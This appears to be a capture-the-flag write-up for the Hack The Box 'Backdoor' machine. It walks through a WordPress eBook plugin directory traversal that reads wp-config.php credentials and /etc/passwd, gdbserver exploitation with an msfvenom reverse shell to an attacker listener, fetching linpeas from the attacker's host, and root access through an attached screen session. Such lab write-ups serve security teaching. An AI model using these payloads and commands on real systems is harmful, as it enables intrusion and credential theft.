

---
search:
  exclude: true
---
# Backdoor Writeup

## Introduction :

Backdoor is an easy Linux box released back in November 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → sudo vim /etc/hosts
    [sudo] password for nothing:
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → nmap -sCV backdoor.htb
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 20:11 UTC
    Nmap scan report for backdoor.htb (10.129.96.68)
    Host is up (0.068s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
    |   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
    |_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Backdoor - Real-Life
    |_http-generator: WordPress 5.8.1
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -u http://backdoor.htb
    ===============================================================
    Gobuster v3.3
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://backdoor.htb
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.3
    [+] Timeout:                 10s
    ===============================================================
    2022/11/20 20:12:34 Starting gobuster in directory enumeration mode
    ===============================================================
    /wp-content           (Status: 301) [Size: 317] [--> http://backdoor.htb/wp-content/]
    /wp-includes          (Status: 301) [Size: 318] [--> http://backdoor.htb/wp-includes/]
    /wp-admin             (Status: 301) [Size: 315] [--> http://backdoor.htb/wp-admin/]
    Progress: 50259 / 220561 (22.79%)^C
    [!] Keyboard interrupt detected, terminating.
    ===============================================================
    2022/11/20 20:13:26 Finished
    ===============================================================
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -u http://backdoor.htb/wp-content/
    ===============================================================
    Gobuster v3.3
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://backdoor.htb/wp-content/
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.3
    [+] Timeout:                 10s
    ===============================================================
    2022/11/20 20:13:30 Starting gobuster in directory enumeration mode
    ===============================================================
    /themes               (Status: 301) [Size: 324] [--> http://backdoor.htb/wp-content/themes/]
    /uploads              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/uploads/]
    /plugins              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/plugins/]
    /upgrade              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/upgrade/]
    Progress: 3928 / 220561 (1.78%)^C
    [!] Keyboard interrupt detected, terminating.
    ===============================================================
    2022/11/20 20:13:33 Finished
    ===============================================================
    
    

` 

So thanks to Gobuster we found the /wp-content/plugins/ebook-download/ subdirectory:

    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → searchsploit ebook plugin
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                                                                                   |  Path
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Facebook Profile MyBB Plugin 2.4 - Persistent Cross-Site Scripting                                                                                               | php/webapps/23355.txt
    WordPress Plugin eBook Download 1.1 - Directory Traversal                                                                                                        | php/webapps/39575.txt
    WordPress Plugin Facebook Opengraph Meta 1.0 - SQL Injection                                                                                                     | php/webapps/17773.txt
    WordPress Plugin Facebook Promotions 1.3.3 - SQL Injection                                                                                                       | php/webapps/17737.txt
    WordPress Plugin Facebook Survey 1.0 - SQL Injection                                                                                                             | php/webapps/22853.txt
    WordPress Plugin flash-album-gallery - 'facebook.php' Cross-Site Scripting                                                                                       | php/webapps/36383.txt
    WordPress Plugin Nextend Facebook Connect 1.4.59 - Cross-Site Scripting                                                                                          | php/webapps/35439.txt
    WordPress Plugin Spider Facebook - 'facebook.php' SQL Injection                                                                                                  | php/webapps/39300.txt
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → cat $(locate 39575.txt)
    # Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
    # Exploit Author: Wadeek
    # Website Author: https://github.com/Wad-Deek
    # Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
    # Version: 1.1
    # Tested on: Xampp on Windows7
    
    [Version Disclosure]
    ======================================
    http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
    ======================================
    
    [PoC]
    ======================================
    /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
    ======================================%
    
    

Apparently there is a Directory traversal vulnerability, so let's test it out:
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → wget http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl\=../../../wp-config.php -O wp-config.php
    --2022-11-20 20:35:12--  http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
    Resolving backdoor.htb (backdoor.htb)... 10.129.96.68
    Connecting to backdoor.htb (backdoor.htb)|10.129.96.68|:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3866 (3.8K) [application/octet-stream]
    Saving to: ‘wp-config.php’
    
    wp-config.php                                    100%[=========================================================================================================>]   3.78K  --.-KB/s    in 0.03s
    
    2022-11-20 20:35:12 (126 KB/s) - ‘wp-config.php’ saved [3866/3866]
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → cat wp-config.php
    ../../../wp-config.php../../../wp-config.php../../../wp-config.php<****?php
    /**
     * The base configuration for WordPress
     *
     * The wp-config.php creation script uses this file during the installation.
     * You don't have to use the web site, you can copy this file to "wp-config.php"
     * and fill in the values.
     *
     * This file contains the following configurations:
     *
     * * MySQL settings
     * * Secret keys
     * * Database table prefix
     * * ABSPATH
     *
     * @link https://wordpress.org/support/article/editing-wp-config-php/
     *
     * @package WordPress
     */
    
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'wordpressuser' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
    
    [...]
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl\=../../../../../../etc/passwd
    ../../../../../../etc/passwd../../../../../../etc/passwd../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    user:x:1000:1000:user:/home/user:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false

So here we have credentials: **wordpressuser:MQYBJSaD#DxG6qbm** and we also have the list of users with the passwd file. 
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Backdoor]
    → for i in `seq 620 1000`; do curl  --output - http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl\=/proc/$i/cmdline ; echo ; done
    
    

Let it run, and eventually you'll find the gdbserver process running on port 1337:
    
    
    [ 10.10.14.37/23 ] [ /dev/pts/13 ] [~]
    → nmap -sCV backdoor.htb -p1337
    Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 09:41 CET
    Nmap scan report for backdoor.htb (10.129.96.68)
    Host is up (0.094s latency).
    
    PORT     STATE SERVICE VERSION
    1337/tcp open  waste?
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 107.13 seconds
    
    

So to exploit gdbserver, we follow this page on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver):
    
    
    [ 10.10.14.37/23 ] [ /dev/pts/13 ] [~]
    →  msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8001 PrependFork=true -f elf -o rev.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 106 bytes
    Final size of elf file: 226 bytes
    Saved as: rev.elf
    
    

Then locally, we debug it:
    
    
    [term1]
    [ 10.10.14.37/23 ] [ /dev/pts/16 ] [~]
    → nc -lvnp 8001
    listening on [any] 8001 ...
    
    [term2]
    [ 10.10.14.37/23 ] [ /dev/pts/13 ] [~]
    → gdb -q rev.elf
    Reading symbols from rev.elf...
    (No debugging symbols found in rev.elf)
    (gdb) target extended-remote 10.129.96.68
    10.129.96.68: No such file or directory.
    (gdb) **target extended-remote 10.129.96.68:1337**
    Remote debugging using 10.129.96.68:1337
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
    Reading /usr/lib/debug/.build-id/53/74b5558386b815e69cc1838a6052cc9b4746f3.debug from remote target...
    Reading /lib64/ld-2.31.so from remote target...
    Reading /lib64/.debug/ld-2.31.so from remote target...
    Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
    Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
    Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
    (No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
    Reading /usr/lib/debug/.build-id/42/86d016f71e32db3a4f7221c847c3d1e13d6bd4.debug from remote target...
    0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
    
    (gdb) **remote put rev.elf /dev/shm/nihilist**
    Successfully sent file "rev.elf".
    
    (gdb) **run**
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program:
    Reading /dev/shm/nihilist from remote target...
    Reading /dev/shm/nihilist from remote target...
    Reading symbols from target:/dev/shm/nihilist...
    (No debugging symbols found in target:/dev/shm/nihilist)
    Reading /usr/lib/debug/.build-id/42/86d016f71e32db3a4f7221c847c3d1e13d6bd4.debug from remote target...
    [Detaching after fork from child process 7213]
    [Inferior 1 (process 7204) exited normally]
    (gdb)
    
    [term1]
    [ 10.10.14.37/23 ] [ /dev/pts/16 ] [~]
    → nc -lvnp 8001
    listening on [any] 8001 ...
    connect to [10.10.14.37] from (UNKNOWN) [10.129.96.68] 49544
    id
    uid=1000(user) gid=1000(user) groups=1000(user)
    
    

And we got the reverse shell! Now let's upgrade it to a fully interactive TTY: 
    
    
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    user@Backdoor:/home/user$ ^Z
    [1]  + 216968 suspended  nc -lvnp 8001
    
    [ 10.10.14.37/23 ] [ /dev/pts/16 ] [~]
    → stty raw -echo ; fg
    [1]  + 216968 continued  nc -lvnp 8001
                                          export TERM=screen-256color
    user@Backdoor:/home/user$ export SHELL=bash
    user@Backdoor:/home/user$ stty rows 50 cols 200
    user@Backdoor:/home/user$ reset
    
    

Now that we have a fully interactive reverse shell, let's print the user flag:
    
    
    user@Backdoor:/home/user$ cat user.txt
    3fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have the user flag!

## **Part 3 : Getting Root Access**

Now in order to enumerate privesc paths, we run linpeas.sh :
    
    
    [term1]
    [ 10.10.14.37/23 ] [ /dev/pts/15 ] [~/HTB/Backdoor]
    → ls
    linpeas.sh
    
    [ 10.10.14.37/23 ] [ /dev/pts/15 ] [~/HTB/Backdoor]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [term2]
    user@Backdoor:/home/user$ wget http://10.10.14.37:9090/linpeas.sh -O /tmp/peas.sh
    --2022-11-30 10:11:59--  http://10.10.14.37:9090/linpeas.sh
    Connecting to 10.10.14.37:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 827827 (808K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh        100%[===================>] 808.42K   266KB/s    in 3.0s
    
    2022-11-30 10:12:03 (266 KB/s) - ‘/tmp/peas.sh’ saved [827827/827827]
    
    user@Backdoor:/home/user$ chmod +x /tmp/peas.sh
    user@Backdoor:/home/user$ /tmp/peas.sh
    
    
    

Let it run, then in the output we see more info regarding gdbserver, but we can also see it with the ps command:
    
    
    user@Backdoor:/home/user$ ps auxww | grep gdb
    root         945  0.0  0.0   2608  1796 ?        Ss   08:39   0:00 /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
    root       14328  0.0  0.1   8404  3880 ?        S    10:06   0:00 su user -c cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
    user       14332  0.0  0.1   6892  3316 ?        Ss   10:06   0:00 bash -c cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
    user       14336  0.0  0.2  11844  4160 ?        S    10:06   0:00 gdbserver --once 0.0.0.0:1337 /bin/true
    user       31115  0.0  0.0   6632   732 pts/2    S+   10:16   0:00 grep --color=auto gdb
    
    user@Backdoor:/home/user$ ps auxww | grep true
    root         945  0.0  0.0   2608  1796 ?        Ss   08:39   0:00 /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
    root         950  0.0  0.0   2608  1544 ?        Ss   08:39   0:02 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
    root       14328  0.0  0.1   8404  3880 ?        S    10:06   0:00 su user -c cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
    user       14332  0.0  0.1   6892  3316 ?        Ss   10:06   0:00 bash -c cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
    user       14336  0.0  0.2  11844  4160 ?        S    10:06   0:00 gdbserver --once 0.0.0.0:1337 /bin/true
    user       31338  0.0  0.0   6632   732 pts/2    S+   10:17   0:00 grep --color=auto true
    
    

When looking at the processes, we see that there is also a script running **screen** as the root user, so let's enumerate it:
    
    
    user@Backdoor:/home/user$  screen -ls
    No Sockets found in /run/screen/S-user.
    
    user@Backdoor:/home/user$  screen -ls root/
    There is a suitable screen on:
            995.root        (11/30/22 08:39:42)     (Multi, detached)
    1 Socket in /run/screen/S-root.
    
    

Here we see the root user is running screen on the socket /root/screen/S-root, so we connect to it: 
    
    
    user@Backdoor:/home/user$ screen -x root/995
    root@Backdoor:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Backdoor:~# cat root.txt
    2dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

## **Conclusion**

Here we can see the progress graph :

